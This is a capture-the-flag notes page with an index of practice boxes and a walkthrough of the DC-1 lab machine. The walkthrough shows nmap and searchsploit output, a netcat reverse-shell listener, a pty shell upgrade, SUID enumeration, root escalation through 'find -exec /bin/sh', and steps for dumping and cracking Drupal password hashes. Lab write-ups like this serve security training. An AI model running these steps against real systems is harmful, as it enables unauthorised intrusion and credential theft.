Index
- BasicPenTestingBox
- BasicPenTestingBox2
- bee box
- BossPlayer
- CyberChallenge19
- Dawn
- DC-1
- DC-2
- DC-3
- DerpNStik
- EVM
- Fowsniff
- Gemini Inc 1
- JIS_CTF
- mullidae
- PumpkinFestival
- PumpkinGarden
- PumpkinRaising
- QuaoarCTFHackfest2016
- Rickdiculously Easy
- silky02
- silky1
- Typhoon
- VMS to try
- xss challenges
- Blue
- mr robot
- Unfinished VMS
- CasinoRoyale
- WinterMute Straylight
- connect the dots (unfinished)
- arsenal
- heist
- MyHouse Box
- Sputnik
- Node
- HackInOs
- Seattle
- DC416-Galahad
- Not a Box
- ICE
DC-1
Nmap scan report for 192.168.56.106
Host is up (0.00012s latency).
Not shown: 997 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
111/tcp open rpcbind
MAC Address: 08:00:27:44:A5:9C (Oracle VirtualBox virtual NIC)
root@kali:~# nmap -A -p- 192.168.56.106
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-01 10:00 EDT
Nmap scan report for 192.168.56.106
Host is up (0.00042s latency).
Not shown: 65531 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey:
| 1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)
| 2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)
|_ 256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)
80/tcp open http Apache httpd 2.2.22 ((Debian))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Welcome to Drupal Site | Drupal Site
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100000 3,4 111/tcp6 rpcbind
| 100000 3,4 111/udp6 rpcbind
| 100024 1 45845/tcp status
| 100024 1 49741/udp status
| 100024 1 50288/tcp6 status
|_ 100024 1 52977/udp6 status
45845/tcp open status 1 (RPC #100024)
MAC Address: 08:00:27:44:A5:9C (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.2 - 3.16
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE
HOP RTT ADDRESS
1 0.42 ms 192.168.56.106
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.26 seconds
root@kali:~#

#
# robots.txt
#
# This file is to prevent the crawling and indexing of certain parts
# of your site by web crawlers and spiders run by sites like Yahoo!
# and Google. By telling these "robots" where not to go on your site,
# you save bandwidth and server resources.
#
# This file will be ignored unless it is at the root of your host:
# Used: http://example.com/robots.txt
# Ignored: http://example.com/site/robots.txt
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/wc/robots.html
#
# For syntax checking, see:
# http://www.sxw.org.uk/computing/robots/check.html
User-agent: *
Crawl-delay: 10
# Directories
Disallow: /includes/
Disallow: /misc/
Disallow: /modules/
Disallow: /profiles/
Disallow: /scripts/
Disallow: /themes/
# Files
Disallow: /CHANGELOG.txt
Disallow: /cron.php
Disallow: /INSTALL.mysql.txt
Disallow: /INSTALL.pgsql.txt
Disallow: /INSTALL.sqlite.txt
Disallow: /install.php
Disallow: /INSTALL.txt
Disallow: /LICENSE.txt
Disallow: /MAINTAINERS.txt
Disallow: /update.php
Disallow: /UPGRADE.txt
Disallow: /xmlrpc.php
# Paths (clean URLs)
Disallow: /admin/
Disallow: /comment/reply/
Disallow: /filter/tips/
Disallow: /node/add/
Disallow: /search/
Disallow: /user/register/
Disallow: /user/password/
Disallow: /user/login/
Disallow: /user/logout/
# Paths (no clean URLs)
Disallow: /?q=admin/
Disallow: /?q=comment/reply/
Disallow: /?q=filter/tips/
Disallow: /?q=node/add/
Disallow: /?q=search/
Disallow: /?q=user/password/
Disallow: /?q=user/register/
Disallow: /?q=user/login/
Disallow: /?q=user/logout/

root@kali:~# searchsploit drupal 7
--------------------------------------- ----------------------------------------
Exploit Title | Path
| (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------------
Drupal 4.7 - 'Attachment mod_mime' Rem | exploits/php/webapps/1821.php
Drupal 4.x - URL-Encoded Input HTML In | exploits/php/webapps/27020.txt
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL | exploits/php/webapps/34984.py
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL | exploits/php/webapps/34992.py
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL | exploits/php/webapps/34993.php
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL | exploits/php/webapps/35150.php
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL | exploits/php/webapps/44355.php
Drupal 7.12 - Multiple Vulnerabilities | exploits/php/webapps/18564.txt
Drupal 7.x Module Services - Remote Co | exploits/php/webapps/41564.php
Drupal < 4.7.6 - Post Comments Remote | exploits/php/webapps/3313.pl
Drupal < 5.22/6.16 - Multiple Vulnerab | exploits/php/webapps/33706.txt
Drupal < 7.34 - Denial of Service | exploits/php/dos/35415.txt
Drupal < 7.58 - 'Drupalgeddon3' (Authe | exploits/php/webapps/44542.txt
Drupal < 7.58 - 'Drupalgeddon3' (Authe | exploits/php/webapps/44557.rb
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < | exploits/php/webapps/44449.rb
Drupal Module CKEditor < 4.1WYSIWYG (D | exploits/php/webapps/25493.txt
Drupal Module Coder < 7.x-1.3/7.x-2.6 | exploits/php/remote/40144.php
Drupal Module Cumulus 5.x-1.1/6.x-1.4 | exploits/php/webapps/35397.txt
Drupal Module Drag & Drop Gallery 6.x- | exploits/php/webapps/37453.php
Drupal Module Embedded Media Field/Med | exploits/php/webapps/35072.txt
Drupal Module RESTWS 7.x - PHP Remote | exploits/php/remote/40130.rb
Drupal avatar_uploader v7.x-1.0-beta8 | exploits/php/webapps/44501.txt
--------------------------------------- ----------------------------------------
Shellcodes: No Result
root@kali:~#









nc -lvp 1234

root@kali:~# nc -lvp 1234
listening on [any] 1234 ...
192.168.56.106: inverse host lookup failed: Unknown host
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.106] 51873
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@DC-1:/var/www$ find / -perm u=s -type f 2>/dev/null
find / -perm u=s -type f 2>/dev/null
www-data@DC-1:/var/www$ find / -perm /4000 2>/dev/null
find / -perm /4000 2>/dev/null
/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/sbin/mount.nfs
www-data@DC-1:/var/www$
-> use find to spawn a shell:
www-data@DC-1:/var/www$ find . -exec '/bin/sh' \;
find . -exec '/bin/sh' \;
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
thefinalflag.txt
# cat thefinalflag.txt
cat thefinalflag.txt
Well done!!!!
Hopefully you've enjoyed this and learned some new skills.
You can let me know what you thought of this little journey
by contacting me via Twitter - @DCAU7
#
Finding the flags:
# find / -name flag*
find / -name flag*
/home/flag4
/home/flag4/flag4.txt
/var/www/flag1.txt
Flag 2:
cd /var/www/sites/default/settings.php

-> flag4 you have to do some other stuff
Intended Way to do this box:
1- Using metasploit or any other exploits which gives you a reverse shell (without logging-in to drupal).
2- Read flag1.txt file.
3- Read settings.php file.
4- Login to mysql database.
5- Extract users table information.
6- Crack users passwords using hashcat.
7- Login using the cracked passwords to drupal admin area.
8- Find the third flag which will give you a hint.
9- Return back to the reverse shell and try to read the fourth flag (flag4.txt) using the find command.
10- Read flag4.txt using find command and then read the thefinalflag.txt (but first, we have to list the /root directory contents) using the same methods.